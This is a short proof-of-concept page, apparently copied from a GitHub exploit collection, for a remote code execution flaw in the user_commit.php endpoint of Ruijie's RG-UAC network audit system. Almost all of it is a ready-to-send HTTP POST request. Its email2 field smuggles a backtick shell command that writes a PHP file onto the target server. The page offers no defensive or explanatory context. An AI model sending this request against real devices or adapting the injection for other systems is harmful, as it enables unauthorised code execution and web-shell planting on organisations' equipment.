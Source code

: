 # RG-UAC_user_commit.php_rce
from: https://github.com/wy876/POC/blob/main/%E9%94%90%E6%8D%B7RG-UAC%E7%BB%9F%E4%B8%80%E4%B8%8A%E7%BD%91%E8%A1%8C%E4%B8%BA%E7%AE%A1%E7%90%86%E5%AE%A1%E8%AE%A1%E7%B3%BB%E7%BB%9Fuser_commit.php%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C.md

```
POST /view/systemConfig/sys_user/user_commit.php?action=add HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) 
Gecko/20100101 Firefox/124.0
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*
;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-GPC: 1
Connection: close
Cookie: PHPSESSID=ebd507c9bc5a4293c3e5e596f37157bf
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 0000:0000:0000::0000
X-Originating-IP: 0000:0000:0000::0000
X-Remote-IP: 0000:0000:0000::0000
X-Remote-Addr: 0000:0000:0000::0000
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

auth_method=1&pwd_policy=2&email2=`echo+"<?php+phpinfo();?>">1.php`&user_name=1
```
